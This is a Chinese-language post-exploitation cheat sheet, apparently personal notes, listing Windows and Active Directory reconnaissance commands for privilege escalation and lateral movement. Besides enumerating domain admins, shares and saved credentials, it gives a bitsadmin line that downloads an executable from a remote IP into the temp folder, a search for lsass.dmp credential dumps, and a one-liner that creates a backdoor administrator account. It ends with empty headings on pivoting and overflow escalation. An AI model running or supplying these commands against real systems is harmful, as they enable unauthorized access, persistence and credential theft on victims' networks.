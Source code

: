



在提权之前首先要做的是对系统的操作系统信息做一些信息收集，这里简单提一下这几条命令：

systeminfo | findstr OS #获取系统版本信息
hostname	#获取主机名称
whomai /priv	#显示当前用户的安全特权
quser or query user	#获取在线用户
netstat -ano | findstr 3389	#获取rdp连接来源IP
dir c:\programdata\ #分析安装杀软
wmic qfe get Caption,Description,HotFixID,InstalledOn	#列出已安装的补丁
REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber	#获取远程端口
tasklist /svc | find "TermService" + netstat -ano	#获取远程端口




前期信息收集
query user || qwinsta 查看当前在线用户
net user  查看本机用户
net user /domain 查看域用户
net view & net group "domain computers" /domain 查看当前域计算机列表 第二个查的更多
net view /domain 查看有几个域
net view \\\\dc   查看 dc 域内共享文件
net group /domain 查看域里面的组
net group "domain admins" /domain 查看域管
net localgroup administrators /domain   /这个也是查域管，是升级为域控时，本地账户也成为域管
net group "domain controllers" /domain 域控
net time /domain 
net config workstation   当前登录域 - 计算机名 - 用户名
net use \\\\域控(如pc.xx.com) password /user:xxx.com\username 相当于这个帐号登录域内主机，可访问资源
ipconfig
systeminfo
tasklist /svc
tasklist /S ip /U domain\username /P /V 查看远程计算机 tasklist
net localgroup administrators && whoami 查看当前是不是属于管理组
netstat -ano
nltest /dclist:xx  查看域控
whoami /all 查看 Mandatory Label uac 级别和 sid 号
net sessoin 查看远程连接 session (需要管理权限)
net share     共享目录
cmdkey /l   查看保存登陆凭证
echo %logonserver%  查看登陆域
spn –l administrator spn 记录
set  环境变量
dsquery server - 查找目录中的 AD DC/LDS 实例
dsquery user - 查找目录中的用户
dsquery computer 查询所有计算机名称 windows 2003
dir /s *.exe 查找指定目录下及子目录下没隐藏文件
arp -a    arp表



其他常用命令
ping       icmp 连通性
nslookup www.baidu.com vps-ip dns 连通性
dig @vps-ip www.baidu.com
curl vps:8080  http 连通性
tracert
bitsadmin /transfer n http://ip/xx.exe C:\windows\temp\x.exe一种上传文件 >= 2008
fuser -nv tcp 80 查看端口 pid
rdesktop -u username ip linux 连接 win 远程桌面 (有可能不成功)
where file win 查找文件是否存在 
找路径，Linux 下使用命令 find -name *.jsp 来查找，Windows 下，使用 for /r c:\windows\temp\ %i in (file lsss.dmp) do @echo %i
netstat -apn | grep 8888   kill -9 PID   查看端口并 kill


远程登录内网主机
判断是内网，还是外网，内网转发到 vps

netstat -ano   没有开启 3389 端口,复查下
tasklist /svc,查 svchost.exe 对应的 TermService 的 pid,看 netstat 相等的 pid 即 3389 端口.



在主机上添加账号
net user admin1 admin1 /add & net localgroup administrators admin1 /add



内网转发







溢出提权
溢出提权是在提权过程中最通用的，但是其利用的关键点在于目标系统安全补丁打的不够及时，才会让攻击者有机可乘

